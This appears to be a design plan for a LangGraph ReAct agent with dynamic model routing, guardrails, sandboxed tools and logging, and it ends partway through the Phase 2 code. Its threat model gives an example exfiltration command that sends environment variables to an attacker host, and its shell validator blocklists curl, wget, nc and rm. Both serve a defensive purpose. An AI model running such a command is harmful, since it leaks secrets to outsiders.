

# ReAct Agent with Dynamic Model Selection

## Technology Stack

- **Orchestration**: LangGraph -- custom `StateGraph` with thin-wrapper nodes for route, call_llm, execute_tool, evaluate
- **Tool schemas + output validation**: Pydantic -- type-safe tool definitions, validated I/O schemas. (`pydantic-ai` under evaluation for structured LLM output; decision before Phase 1 code begins)
- **Security**: Defense-in-depth -- input guardrails (H3, LLM-as-judge), deterministic tool validators (Pydantic), output guardrails (PII/leakage scanning)
- **Model calls**: LiteLLM via `ChatLiteLLM` (LangChain-compatible) -- provider-agnostic, single interface for all models
- **Prompt management**: Jinja2 templates rendered via `PromptService` -- externalized prompts, logged renders, human-editable (H1)
- **Observability**: Dual -- LangSmith cloud (tracing, evaluation datasets, prompt management, online evaluation) + per-concern structured log files via `logging.json` (H4)
- **Config**: Hybrid -- `.j2` prompt templates (prose policy for LLM) + Pydantic models (structured data for Python code)
- **Deployment**: Local Docker container, traces sent to LangSmith cloud

## Architecture Overview

The system is organized as a three-layer grid following the composable layering architecture. The orchestration layer (LangGraph `StateGraph`) defines topology -- which nodes run in what order. Vertical components contain framework-agnostic domain logic. Horizontal services provide cross-cutting infrastructure consumed by all layers above. Dependencies flow downward only.

```mermaid
flowchart TB
    subgraph orchestrationLayer ["Orchestration Layer (LangGraph StateGraph)"]
        ReactLoop["react_loop.py\n(topology only: nodes + edges)"]
        AgentStateDef["state.py\n(AgentState TypedDict)"]
        GuardNode["guard_input_node\n(thin wrapper)"]
        RouteNode["route_node\n(thin wrapper)"]
        CallLLMNode["call_llm_node\n(thin wrapper)"]
        ExecToolNode["execute_tool_node\n(thin wrapper)"]
        EvalNode["evaluate_node\n(thin wrapper)"]
    end

    subgraph verticalLayer ["Vertical Components (framework-agnostic domain logic)"]
        Router["router.py\nselect_model()"]
        Evaluator["evaluator.py\nclassify_outcome()\nparse_response()\ncheck_continuation()"]
        Schemas["schemas.py\nStepResult, TaskResult,\nErrorRecord, EvalRecord"]
        RoutingCfg["routing_config.py\nRoutingConfig"]
    end

    subgraph horizontalLayer ["Horizontal Services (domain-agnostic infrastructure)"]
        PromptSvc["prompt_service.py\nJinja2 rendering + logging"]
        LLMConfig["llm_config.py\nChatLiteLLM factory"]
        Guardrails["guardrails.py\ninput/output validation (H3)"]
        EvalCapture["eval_capture.py\nAI input/output recording"]
        Observability["observability.py\nper-concern logging setup"]
        BaseCfg["base_config.py\nAgentConfig, ModelProfile"]
        ToolRegistry["tools/registry.py\ntool dispatch"]
        ToolImpls["tools/shell.py, file_io.py,\nweb_search.py"]
    end

    subgraph langsmithCloud ["LangSmith Cloud"]
        Tracing["Tracing"]
        EvalDatasets["Evaluation Datasets"]
        PromptMgmt["Prompt Management"]
        OnlineEval["Online Evaluation"]
    end

    subgraph metaLayer ["Meta-Optimization (Phase 4, separate package)"]
        MetaLoop["optimizer.py\n(tunes RoutingConfig)"]
        Analytics["analysis.py\n(reads logs + eval scores)"]
        Judge["judge.py\nLLM-as-judge evaluator"]
        DriftDetect["drift.py\nscore drift detection"]
    end

    GuardNode -->|"calls"| Guardrails
    RouteNode -->|"calls"| Router
    CallLLMNode -->|"calls"| PromptSvc
    CallLLMNode -->|"calls"| LLMConfig
    ExecToolNode -->|"calls"| ToolRegistry
    EvalNode -->|"calls"| Evaluator

    Router -->|"reads"| RoutingCfg
    Router -->|"reads"| BaseCfg
    Evaluator -->|"calls"| EvalCapture
    Evaluator -->|"reads"| Schemas

    ToolRegistry --> ToolImpls

    orchestrationLayer -->|"traces"| Tracing
    Judge --> Analytics
    Analytics --> MetaLoop
    DriftDetect --> Analytics
    MetaLoop -.->|"tunes thresholds"| RoutingCfg
    EvalDatasets -.->|"benchmark tasks"| MetaLoop
```



## Graph Detail: The ReAct Cycle

Each node is a thin wrapper that delegates to framework-agnostic logic in `components/` and `services/`. The graph defines topology only (Rule O1).



## LangGraph State Schema

The `AgentState` is the single source of truth flowing through the graph. All nodes read from and write to this state. Defined in `orchestration/state.py` -- the only file in this layer that imports from `langgraph`.

Cumulative fields use `Annotated` reducers so that values persist and accumulate across multi-turn invocations on the same `thread_id`. Without reducers, LangGraph applies "last write wins" semantics, which would reset counters on each invocation. Append-only list fields use a custom `_append_list` reducer that deduplicates by `step_id` to prevent the exponential duplication bug documented in LangGraph's issue tracker.

```python
from typing import Annotated
from langgraph.graph import MessagesState
import operator

def _append_list(existing: list, new: list) -> list:
    """Append-only reducer. Deduplicates by step_id to prevent checkpoint reload duplication."""
    seen_ids = {item.get("step_id") or id(item) for item in existing}
    return existing + [item for item in new
                       if (item.get("step_id") or id(item)) not in seen_ids]

class AgentState(MessagesState):
    # Identity (set at invocation, read by all nodes)
    task_id: str
    task_input: str                      # original user query, explicit to avoid messages[0] dependency

    # Routing (set by route node, read by call_llm)
    selected_model: str
    routing_reason: str
    model_history: Annotated[list[dict], _append_list]  # [{step, model, tier, reason}]

    # Tracking (cumulative across multi-turn via reducers)
    step_count: Annotated[int, operator.add]
    total_cost_usd: Annotated[float, operator.add]
    total_input_tokens: Annotated[int, operator.add]
    total_output_tokens: Annotated[int, operator.add]

    # Error state (updated by evaluate node, read by route node)
    consecutive_errors: int              # reset on success (last-write-wins is correct)
    last_error_type: str                 # "retryable" | "model_error" | "tool_error" | "terminal"
    error_history: Annotated[list[dict], _append_list]  # serialized ErrorRecord dicts
    retry_count_current_step: int
    backoff_until: float | None          # Unix timestamp; route_node waits if set

    # Context management
    current_token_count: int
    truncation_applied: bool

    # Evaluation (set by evaluate node, read by should_continue)
    last_outcome: str                    # "success" | "failure" | "stall"
    reasoning_trace: Annotated[list[str], operator.add]

    # Results (appended by evaluate node, serialized by logger)
    step_results: Annotated[list[dict], _append_list]  # serialized StepResult objects

    # Caching (tool result cache, keyed by "tool_name:args_hash")
    tool_cache: dict
```

### Request Context (RunnableConfig)

User identity, session metadata, and per-user overrides are **not** mutable agent state -- they are request context that should not change during a graph run. These live in `RunnableConfig["configurable"]` alongside `agent_config` and `routing_config`:

```python
config = {
    "configurable": {
        "agent_config": agent_config,
        "routing_config": routing_config,
        "user_id": "user_123",
        "session_id": "sess_abc",         # maps to LangGraph thread_id
        "permissions": {"tools": ["shell", "file_io"]},
        "user_max_cost_per_task": 0.50,   # overrides AgentConfig.max_cost_usd
    }
}
```

Nodes read these values via `config["configurable"]["user_id"]` etc. The `eval_capture` service includes `user_id` and `task_id` in every log record for per-user analysis and data isolation.

## Dependency Rules

The three-layer architecture enforces strict dependency direction. These rules are derived from [STYLE_GUIDE_LAYERING.md](docs/STYLE_GUIDE_LAYERING.md) and adapted for the LangGraph orchestration pattern.

### Allowed Dependencies

| From | To | Rationale |
| --- | --- | --- |
| Orchestration | Components | Thin-wrapper nodes call domain logic (e.g., `route_node` calls `router.select_model()`) |
| Orchestration | Services | Nodes consume infrastructure (e.g., `call_llm_node` uses `prompt_service`, `llm_config`) |
| Components | Services | Domain logic consumes infrastructure (e.g., `evaluator` uses `eval_capture`) |
| Services | Services | Cautiously -- a service may use another (e.g., guardrails uses `prompt_service` + `llm_config`) |

### Forbidden Dependencies

| From | To | What Goes Wrong |
| --- | --- | --- |
| Components | Orchestration | Domain logic becomes coupled to LangGraph. Breaks the Phase 4 fallback. |
| Services | Orchestration | Infrastructure depends on a specific framework. Impossible to reuse outside the graph. |
| Services | Components | Horizontal service gains domain awareness. Adding a new component requires modifying a service. |
| Components | Components | Creates coupling between domain modules. Only the orchestration layer knows which components exist. |

### Framework Import Discipline

These rules keep the Phase 4 Pydantic AI fallback viable:

- **`components/` must NOT import from `langgraph` or `langchain`.** All files in `components/` (`schemas.py`, `routing_config.py`, `router.py`, `evaluator.py`) are framework-agnostic domain models and logic.
- **`services/` must NOT import from `langgraph` or `langchain`**, except `llm_config.py` which wraps `ChatLiteLLM`. Swapping to raw `litellm.completion()` is a one-line change per call site.
- **Node functions in `orchestration/` are thin wrappers** around framework-agnostic logic. e.g., `route_node()` calls `router.select_model(state, config)` which lives in `components/router.py` and knows nothing about LangGraph.
- **LangSmith tracing works without LangGraph** -- `@langsmith.traceable` decorators on plain functions in any layer.

## Security Architecture

The agent serves authenticated end users via a web UI with tool execution capabilities (shell, file I/O). This creates four threat categories, each addressed by a specific architectural layer. Defense-in-depth: no single layer is sufficient; all three runtime layers (input guardrail, tool validators, output guardrail) are required.

### Threat Model

| Threat Category | Example Attack | Impact |
| --- | --- | --- |
| Input threats | Prompt injection to hijack agent behavior | Agent executes attacker-controlled actions |
| Tool execution threats | Agent runs `curl attacker.com?data=$(env)` | Data exfiltration, arbitrary code execution |
| Data isolation threats | User A's context leaks into User B's response | Privacy violation, data breach |
| Economic threats | Crafting queries that force expensive model selection | Budget exhaustion, denial of service |

### Security Controls by Layer

| Control | Layer | Implementation | Phase |
| --- | --- | --- | --- |
| Input guardrail | Horizontal service + Orchestration node | `services/guardrails.py` (H3 pattern) + `guard_input_node` in graph. LLM-as-judge with small/fast model, boolean output. Rejects prompt injection, system prompt override attempts. | Phase 1 |
| Command allowlist | Horizontal service (tool layer) | Pydantic `@validator` on `ShellToolInput.command`. Allowlist: `ls`, `cat`, `head`, `tail`, `grep`, `find`, `python`, `wc`. Blocklist patterns: `rm `, `curl `, `wget `, `nc `, `sudo `. Deterministic -- no LLM bypass possible. | Phase 1 |
| Path sandboxing | Horizontal service (tool layer) | Pydantic `@validator` on `FileIOInput.path`. Resolves path and rejects anything outside `/workspace/{user_id}/`. | Phase 1 |
| Output guardrail | Horizontal service | Scans LLM response for PII patterns, API key patterns, system prompt fragments. Rule-based (regex) + LLM-based (small model, boolean check). | Phase 2 |
| User attribution in logs | Horizontal service (eval_capture) | Every `eval_capture.record()` call includes `user_id` from `RunnableConfig["configurable"]`. | Phase 1 |
| Per-user budget | Request context (RunnableConfig) | `user_max_cost_per_task` overrides `AgentConfig.max_cost_usd`. Checked by `route_node`. | Phase 3 |
| Per-user rate limiting | API layer (outside agent) | Max N tasks per user per hour. Enforced by web server middleware, not by the agent. | Phase 3 |
| Sandbox-as-tool | Infrastructure | Tool execution delegated to ephemeral sandboxes (E2B/Modal/gVisor) via API. Agent holds API keys on the host; sandbox is destroyed after each task. | Phase 3+ |

### Guardrails Service (`services/guardrails.py`)

Follows the H3 pattern from [STYLE_GUIDE_PATTERNS.md](docs/STYLE_GUIDE_PATTERNS.md). Parameterized by an `accept_condition` string; the caller defines the specific check:

```python
class InputGuardrail:
    def __init__(self, name: str, accept_condition: str):
        self.system_prompt = PromptService.render_prompt(
            "input_guardrail", accept_condition=accept_condition
        )

    async def is_acceptable(self, prompt: str, raise_exception: bool = False) -> bool:
        """Uses small/fast model. Boolean output. Logged to guards.log."""
        ...
```

The `guard_input_node` in the orchestration layer is a thin wrapper that calls this service and halts the graph on rejection. Guardrails consume `prompt_service` and `llm_config` -- this is a Services-to-Services dependency, already allowed by the dependency rules.

## Configuration Strategy: Hybrid (Templates + Pydantic)

Two kinds of config, two formats -- each matched to its consumer:

- **Policy / routing intent** --> Jinja2 templates in `prompts/` directory, rendered via `PromptService` (H1). Two separate templates:
  - `system_prompt.j2` -- the agent's persona and behavioral instructions, rendered into the LLM system prompt.
  - `routing_policy.j2` -- routing policy prose ("prefer capable models for planning steps"), rendered and appended to the system prompt. Human-editable; the LLM follows it as advisory guidance.

- **Structured data** --> Pydantic models, split by layer:
  - `services/base_config.py` -- `AgentConfig` and `ModelProfile` (generic, horizontal). Budget caps, model profiles, context windows, cost rates. Consumed by any layer.
  - `components/routing_config.py` -- `RoutingConfig` (domain-specific, vertical). Escalation thresholds, downgrade triggers. Consumed by `components/router.py`. Directly mutable by the Phase 4 meta-optimizer.

No YAML (project has zero YAML files; implicit typing causes bugs; adds `pyyaml` dependency for no gain). No TOML for app config (awkward for arrays-of-objects; project pinned to 3.10 so no stdlib `tomllib`).

## File Structure

All new code lives under `agent/` inside the existing workspace. The directory structure reflects the three-layer grid:

```
agent/
  prompts/                             # Prompt templates -- data, not code (H1)
    system_prompt.j2                   # Agent persona and behavioral instructions
    routing_policy.j2                  # Routing policy prose (human edits, LLM reads)
    input_guardrail.j2                 # Prompt injection detection condition (H3)
    output_guardrail.j2                # PII/leakage detection condition (H3)
  Dockerfile                           # Local Docker container for agent runtime
  agent/
    __init__.py
    # --- Orchestration Layer (LangGraph-specific, topology only) ---
    orchestration/
      __init__.py
      react_loop.py                    # StateGraph definition: nodes, edges, compilation (TOPOLOGY ONLY)
      state.py                         # LangGraph AgentState TypedDict (extends MessagesState)
    # --- Vertical Components (framework-agnostic domain logic, NO langgraph imports) ---
    components/
      __init__.py
      router.py                        # select_model(step_count, errors, cost, config) -> ModelProfile
      evaluator.py                     # classify_outcome(), parse_response(), check_continuation()
      schemas.py                       # Pydantic models: StepResult, TaskResult, ErrorRecord, EvalRecord
      routing_config.py                # Pydantic model: RoutingConfig (domain-specific thresholds)
    # --- Horizontal Services (domain-agnostic infrastructure, NO langgraph imports) ---
    services/
      __init__.py
      prompt_service.py                # Jinja2 template rendering + render logging (H1)
      llm_config.py                    # ModelProfile registry, ChatLiteLLM factory, tier constants (H2)
      guardrails.py                    # Input/output validation via LLM-as-judge (H3)
      eval_capture.py                  # Record AI input/output with target tags (H5)
      observability.py                 # Per-concern structured logging setup (H4)
      base_config.py                   # Pydantic models: AgentConfig, ModelProfile (generic config)
      tools/                           # Tool infrastructure -- stateless, domain-agnostic
        __init__.py
        registry.py                    # Tool dispatch: name -> validated executor (with cacheable flag)
        shell.py                       # ShellToolInput/Output + execute (command allowlist, stateless)
        file_io.py                     # FileIOInput/Output + execute (path-sandboxed, stateless)
        web_search.py                  # WebSearchInput/Output + execute (stub)
  meta/                                # Separate package -- Meta-optimization + Evaluation (Phase 3-4)
    __init__.py
    optimizer.py                       # Meta-optimization loop: tunes RoutingConfig thresholds
    analysis.py                        # Analytics: reads JSONL + LangSmith eval scores, computes metrics
    judge.py                           # LLM-as-judge evaluator: scores agent outputs against taxonomy
    judge_prompt.j2                    # Judge scoring prompt with taxonomy reference + few-shot examples
    drift.py                           # Score drift detection: baseline comparison, re-calibration triggers
    run_eval.py                        # Automated pipeline: golden set -> agent -> judge -> report
    discovery/                         # Failure discovery artifacts (populated during Phase 3)
      failure_taxonomy.json            # Discovered failure categories with definitions
      labeled_examples/                # Annotated failure instances for judge calibration
  logging.json                         # Per-concern log routing configuration (H4)
  cli.py                               # Entry point: python -m agent.cli "task"
  pyproject.toml                       # Dependencies
  README.md
```

---

## Phase 1: Foundation -- Custom StateGraph with Single Model

Goal: A working ReAct agent built as a LangGraph custom `StateGraph` with the three-layer architecture in place from day one. Single hardcoded model (default from config), trivial routing and evaluation nodes. Full observability: LangSmith tracing + per-concern log files.

### 1.1 Project scaffolding and dependencies

Create `agent/pyproject.toml` with:
- `langgraph` -- orchestration, state management, checkpointing
- `langchain-litellm` -- `ChatLiteLLM` LangChain-compatible model wrapper
- `litellm` -- provider-agnostic LLM calls (transitive dep of langchain-litellm, pin explicitly)
- `pydantic` -- schema validation, config, tool schemas, security validators
- `pydantic-ai` -- under evaluation for structured LLM output; include as optional dependency, decision before Phase 1 code begins
- `langsmith` -- tracing SDK (auto-instrumented by LangGraph, also usable standalone)
- `jinja2` -- prompt template rendering
- `rich` -- terminal output formatting

Create `Dockerfile` for local containerized execution.

Set up LangSmith env vars: `LANGCHAIN_TRACING_V2=true`, `LANGCHAIN_API_KEY`, `LANGCHAIN_PROJECT`.

### 1.2 Schemas and state

**`components/schemas.py`** -- framework-agnostic Pydantic models (NO langgraph/langchain imports):

```python
class ErrorRecord(BaseModel):
    step: int
    error_type: str                      # "retryable" | "model_error" | "tool_error" | "terminal"
    error_code: int | None = None        # HTTP status code if applicable (429, 503)
    message: str
    model: str
    timestamp: float

class StepResult(BaseModel):
    step_id: int
    action: str                         # "tool_call", "think", "answer"
    model_used: str
    routing_reason: str
    input_tokens: int
    output_tokens: int
    cost_usd: float
    latency_ms: float
    tool_name: str | None = None
    tool_input: dict | None = None
    tool_output: str | None = None
    outcome: str                        # "success", "failure", "error"
    error_type: str | None = None       # set on failure: "retryable" | "model_error" | "tool_error" | "terminal"
    reasoning: str

class EvalRecord(BaseModel):
    """Formalized JSONL schema for eval_capture. All eval log records follow this structure."""
    schema_version: int = 1
    timestamp: datetime
    task_id: str
    user_id: str
    step: int
    target: str                          # "call_llm" | "evaluate" | "tool_exec" | "guardrail"
    model: str | None = None
    ai_input: dict
    ai_response: dict | str
    tokens_in: int | None = None
    tokens_out: int | None = None
    cost_usd: float | None = None
    latency_ms: float | None = None
    error_type: str | None = None

class TaskResult(BaseModel):
    task_id: str
    task_input: str
    steps: list[StepResult]
    final_answer: str | None = None
    total_cost_usd: float
    total_latency_ms: float
    total_steps: int
    status: str                         # "completed", "failed", "budget_exceeded"
```

`ErrorRecord` enables structured error classification: the `evaluate_node` creates one on every failure, and the `route_node` reads `last_error_type` from state to decide between retry-with-backoff (for `retryable`) and escalate-to-capable-model (for `model_error`).

`EvalRecord` formalizes the JSONL schema for `eval_capture`. Downstream consumers (`meta/analysis.py`, `meta/judge.py`) import `EvalRecord` and parse with `EvalRecord.model_validate_json(line)`. Schema changes increment `schema_version`; analysis code handles both old and new versions.

**`orchestration/state.py`** -- LangGraph state schema (the only file in `orchestration/` that imports from langgraph). See [LangGraph State Schema](#langgraph-state-schema) above for the full schema with `Annotated` reducers and field documentation.

### 1.3 Configuration (split by layer)

**`services/base_config.py`** -- generic configuration consumed by any layer. NO langgraph imports:

```python
class ModelProfile(BaseModel):
    name: str
    litellm_id: str
    tier: str                           # "fast" | "capable"
    context_window: int
    cost_per_1k_input: float
    cost_per_1k_output: float
    median_latency_ms: float = 1000

class AgentConfig(BaseModel):
    max_steps: int = 20
    max_cost_usd: float = 1.0
    default_model: str = "gpt-4o-mini"
    models: list[ModelProfile] = []
```

**`components/routing_config.py`** -- domain-specific routing thresholds. NO langgraph imports. In Phase 1, these fields exist but the `route` node always returns `default_model`:

```python
class RoutingConfig(BaseModel):
    default_model: str = "gpt-4o-mini"
    escalate_after_failures: int = 2
    max_escalations: int = 3
    budget_downgrade_threshold: float = 0.8
```

### 1.4 Tools: Horizontal services with Pydantic schemas

Tools are stateless, domain-agnostic infrastructure living in `services/tools/`. Each tool is a pure function: validated input in, validated output out. Tools have no knowledge of `AgentState`, LangGraph, or the orchestration layer.

**Pydantic schemas** define the input/output contract for each tool. Security validators (command allowlist, path sandboxing) are enforced at the schema level via Pydantic `@validator` -- these are deterministic checks that run before execution and cannot be bypassed via prompt injection:

```python
ALLOWED_COMMANDS = {"ls", "cat", "head", "tail", "grep", "find", "python", "wc"}
BLOCKED_PATTERNS = {"rm ", "curl ", "wget ", "nc ", "chmod ", "chown ", "sudo "}

class ShellToolInput(BaseModel):
    command: str = Field(description="Shell command to execute")
    timeout: int = Field(default=30, ge=1, le=60)

    @validator("command")
    def validate_command(cls, v):
        cmd_prefix = v.strip().split()[0]
        if cmd_prefix not in ALLOWED_COMMANDS:
            raise ValueError(f"Command '{cmd_prefix}' not in allowlist")
        for pattern in BLOCKED_PATTERNS:
            if pattern in v:
                raise ValueError(f"Blocked pattern '{pattern.strip()}' detected")
        return v

class ShellToolOutput(BaseModel):
    stdout: str
    stderr: str
    exit_code: int
```

```python
class FileIOInput(BaseModel):
    path: str
    operation: str                       # "read" | "write"
    content: str | None = None           # required for write

    @validator("path")
    def validate_path(cls, v):
        resolved = Path(v).resolve()
        workspace = Path(os.environ.get("WORKSPACE_DIR", "/workspace"))
        if not resolved.is_relative_to(workspace):
            raise ValueError(f"Path {v} is outside workspace boundary")
        return str(resolved)
```

**Tool functions** are stateless executors:

```python
def execute_shell(input: ShellToolInput) -> ShellToolOutput:
    result = subprocess.run(input.command, ...)
    return ShellToolOutput(stdout=result.stdout, stderr=result.stderr,
                           exit_code=result.returncode)
```

**`services/tools/registry.py`** maps tool names to their validated executors. Each tool registers a `cacheable` flag indicating whether its results can be cached in `AgentState.tool_cache`:

```python
@dataclass
class ToolDefinition:
    executor: Callable
    schema: type[BaseModel]
    cacheable: bool = False              # only True for idempotent read operations

class ToolRegistry:
    def __init__(self, tools: dict[str, ToolDefinition]):
        self._tools = tools

    def execute(self, tool_name: str, tool_args: dict) -> str:
        defn = self._tools[tool_name]
        return defn.executor(tool_args)

    def is_cacheable(self, tool_name: str) -> bool:
        return self._tools[tool_name].cacheable

    def get_schemas(self) -> list[dict]:
        """Returns tool schemas for LLM bind_tools()."""
        ...
```

The orchestration layer's `execute_tool_node` is a thin wrapper that checks the tool cache before dispatching:

```python
def execute_tool_node(state: AgentState) -> dict:
    tool_call = extract_tool_call(state["messages"][-1])
    cache_key = f"{tool_call.name}:{hashlib.md5(json.dumps(tool_call.args, sort_keys=True).encode()).hexdigest()}"

    if tool_registry.is_cacheable(tool_call.name) and cache_key in state["tool_cache"]:
        result = state["tool_cache"][cache_key]
    else:
        result = tool_registry.execute(tool_call.name, tool_call.args)

    updates = {"messages": [ToolMessage(content=result, tool_call_id=tool_call.id)]}
    if tool_registry.is_cacheable(tool_call.name):
        updates["tool_cache"] = {**state.get("tool_cache", {}), cache_key: result}
    return updates
```

This separation means: the node decides *when* to execute (orchestration); the tool decides *how* to execute (horizontal service); the schema decides *whether to allow* (security). Adding a new tool requires creating a file in `services/tools/` and registering it -- zero changes to the graph topology.

Implement 2-3 example tools: shell (cacheable for read-only commands), file_io (cacheable for reads), web_search stub.

### 1.5 Custom StateGraph (`orchestration/react_loop.py`)

The core LangGraph graph. This file defines **topology only** (Rule O1) -- nodes and edges. Every node function is a thin wrapper that delegates to `components/` or `services/`. In Phase 1, `route_node` is trivial (always returns default model), `evaluate_node` is trivial (always returns "success"):

```python
from langgraph.graph import StateGraph, START, END

builder = StateGraph(AgentState)

builder.add_node("guard_input", guard_input_node)
builder.add_node("route", route_node)
builder.add_node("call_llm", call_llm_node)
builder.add_node("execute_tool", execute_tool_node)
builder.add_node("evaluate", evaluate_node)

builder.add_edge(START, "guard_input")
builder.add_edge("guard_input", "route")
builder.add_edge("route", "call_llm")
builder.add_conditional_edges("call_llm", parse_response,
    {"tool_call": "execute_tool", "final_answer": "evaluate", "budget_exceeded": END})
builder.add_edge("execute_tool", "evaluate")
builder.add_conditional_edges("evaluate", should_continue,
    {"continue": "route", "done": END})

graph = builder.compile()
```

**Node wrappers** -- each delegates to framework-agnostic logic:

- **`guard_input_node`**: Calls `services/guardrails.is_acceptable()` with the user's input. On rejection, raises `InputGuardrailException` which halts the graph. Calls `services/eval_capture.record()` with target `"guardrail"`. Only runs on the first iteration (skipped on subsequent loop iterations via a `step_count > 0` check).
- **`route_node`**: Calls `components/router.select_model()`. Checks `backoff_until` -- if set and in the future, waits or returns early. Writes `selected_model`, `routing_reason`, and appends to `model_history`.
- **`call_llm_node`**: Calls `services/prompt_service.render_prompt()` to build system prompt from `.j2` templates. Calls `services/llm_config.invoke()` with the selected model. Calls `services/eval_capture.record()` with target `"call_llm"`. Appends AIMessage and updates token/cost counters.
- **`execute_tool_node`**: Checks `tool_cache` for cache hit (if tool is cacheable). On miss, calls `services/tools/registry.execute()` with the tool name and args. Updates `tool_cache` for cacheable tools. Appends ToolMessage to state.
- **`evaluate_node`**: Calls `components/evaluator.classify_outcome()` and `build_step_result()`. Classifies error type (`retryable`, `model_error`, `tool_error`, `terminal`) and sets `last_error_type`. On retryable errors (HTTP 429/503), sets `backoff_until`. Calls `services/eval_capture.record()` with target `"evaluate"`.
- **`parse_response`**: Delegates to `components/evaluator.parse_llm_response()` -- inspects AIMessage for tool calls vs final answer vs budget exceeded.
- **`should_continue`**: Delegates to `components/evaluator.check_continuation()` -- checks step count, budget, stall detection, terminal errors.

### 1.6 Observability, eval capture, CLI, and logger

**Dual observability (H4)**:

LangSmith tracing is automatic -- LangGraph instruments every node transition. Additionally, configure per-concern structured log files via `logging.json`:

```json
{
    "loggers": {
        "services.prompt_service":  { "handlers": ["prompts"],  "propagate": false },
        "services.guardrails":      { "handlers": ["guards"],   "propagate": false },
        "services.eval_capture":    { "handlers": ["evals"],    "propagate": false },
        "services.tools":           { "handlers": ["tools"],    "propagate": false },
        "components.router":        { "handlers": ["routing"],  "propagate": false }
    }
}
```

This produces separate log files: `prompts.log` (every template render), `guards.log` (every guardrail accept/reject decision), `evals.log` (every AI input/output), `tools.log` (every tool execution), `routing.log` (every model selection decision).

**Eval capture service (H5)** -- `services/eval_capture.py`:

Every LLM call, tool execution, and guardrail check records its input/output as a formalized `EvalRecord` (defined in `components/schemas.py`). The `target` tag identifies the pipeline stage; `user_id` and `task_id` enable per-user analysis and data isolation:

```python
async def record(target: str, ai_input: dict, ai_response: Any,
                 config: RunnableConfig, step: int = 0,
                 model: str | None = None, tokens_in: int | None = None,
                 tokens_out: int | None = None, cost_usd: float | None = None,
                 latency_ms: float | None = None) -> None:
    record = EvalRecord(
        schema_version=1,
        timestamp=datetime.utcnow(),
        task_id=config["configurable"].get("task_id", ""),
        user_id=config["configurable"].get("user_id", "anonymous"),
        step=step,
        target=target,
        model=model,
        ai_input=ai_input,
        ai_response=ai_response,
        tokens_in=tokens_in,
        tokens_out=tokens_out,
        cost_usd=cost_usd,
        latency_ms=latency_ms,
    )
    logger.info("AI Response", extra=record.model_dump())
```

Called from every node wrapper:

```python
await eval_capture.record("call_llm", ai_input=prompt_vars, ai_response=ai_message,
                          config=config, step=state["step_count"], model=state["selected_model"],
                          tokens_in=usage.input, tokens_out=usage.output, cost_usd=cost)
await eval_capture.record("guardrail", ai_input={"prompt": user_input},
                          ai_response={"accepted": True}, config=config)
```

**CLI**: `python -m agent.cli "What is the capital of France?"`

**Logger**: Append-only JSONL from `state["step_results"]` at graph END. Summary TSV for human overview.

---

## Phase 2: Per-Step Model Routing

Goal: The `route` node becomes a real router. It reads state (step count, errors, budget) and `RoutingConfig` to select the optimal model for each step.

### 2.1 Routing policy (prompt templates)

Two Jinja2 templates in `prompts/`, rendered via `PromptService` and injected into the LLM system prompt:

**`prompts/system_prompt.j2`** -- agent persona and behavioral instructions:

```jinja2
You are a ReAct agent that solves tasks by reasoning step-by-step and using tools.
{{ additional_instructions }}
```

**`prompts/routing_policy.j2`** -- human-editable routing policy:

```jinja2
# Routing Policy

## Model Selection
- Use capable-tier models for planning and decomposition steps (steps 1-2).
- Use fast-tier models for simple tool calls (formatting queries, reading files).
- Use capable-tier models for final answer synthesis.

## Error Handling
- If a step fails, escalate to a capable-tier model.
- After {{ escalate_after_failures }} consecutive failures, always escalate regardless of step type.
- Never exceed {{ max_escalations }} escalations per task.

## Budget
- When budget is more than {{ budget_downgrade_pct }}% spent, downgrade to fast-tier models.
- Never exceed the max cost limit.
```

The `call_llm_node` renders both templates via `PromptService`:

```python
system_prompt = prompt_service.render_prompt("system_prompt",
    additional_instructions=prompt_service.render_prompt("routing_policy",
        escalate_after_failures=config.routing.escalate_after_failures,
        max_escalations=config.routing.max_escalations,
        budget_downgrade_pct=int(config.routing.budget_downgrade_threshold * 100),
    ))
```

### 2.2 Route node implementation (`components/router.py` + `orchestration/react_loop.py`)

The framework-agnostic routing logic lives in `components/router.py`. It now receives `last_error_type` and `model_history` to make smarter decisions -- retryable errors (HTTP 429/503) trigger backoff on the same model rather than escalation, while `model_error` triggers escalation to a capable-tier model:

```python
def select_model(
    step_count: int,
    consecutive_errors: int,
    last_error_type: str,
    total_cost_usd: float,
    model_history: list[dict],
    agent_config: AgentConfig,
    routing_config: RoutingConfig,
) -> tuple[ModelProfile, str]:
    """Returns (selected_model, reason). No LangGraph imports."""
    if last_error_type == "retryable":
        # Same model, let backoff_until handle the wait
        ...
    if last_error_type == "model_error" and consecutive_errors >= routing_config.escalate_after_failures:
        # Escalate to capable tier
        ...
    ...
```

The `route_node` in `orchestration/react_loop.py` is a thin wrapper. It checks `backoff_until` before proceeding and appends to `model_history` for meta-analysis:

```python
def route_node(state: AgentState, config: RunnableConfig) -> dict:
    if state.get("backoff_until") and time.time() < state["backoff_until"]:
        time.sleep(state["backoff_until"] - time.time())

    agent_config = config["configurable"]["agent_config"]
    routing_config = config["configurable"]["routing_config"]
    max_cost = config["configurable"].get("user_max_cost_per_task", agent_config.max_cost_usd)

    model, reason = select_model(
        state["step_count"], state["consecutive_errors"],
        state.get("last_error_type", ""), state["total_cost_usd"],
        state.get("model_history", []), agent_config, routing_config,
    )
    return {
        "selected_model": model.litellm_id,
        "routing_reason": reason,
        "model_history": [{"step": state["step_count"], "model": model.litellm_id,
                           "tier": model.tier, "reason": reason}],
        "backoff_until": None,
        "retry_count_current_step": 0,
    }
```

### 2.3 Evaluate node with real tracking

The `evaluate_node` becomes meaningful. It delegates to `components/evaluator.py` and records via `services/eval_capture.py`. Error classification determines how `route_node` reacts on the next iteration:

```python
def evaluate_node(state: AgentState, config: RunnableConfig) -> dict:
    outcome, details, error_type = classify_outcome(state)
    step_result = build_step_result(state, outcome, error_type)

    eval_capture.record("evaluate",
        ai_input={"step": state["step_count"], "model": state["selected_model"]},
        ai_response={"outcome": outcome, "details": details, "error_type": error_type},
        config=config, step=state["step_count"], model=state["selected_model"])

    updates = {
        "last_outcome": outcome,
        "step_count": 1,                 # Annotated[int, operator.add] accumulates
        "step_results": [step_result.model_dump()],
    }
    if outcome == "failure":
        updates["consecutive_errors"] = state["consecutive_errors"] + 1
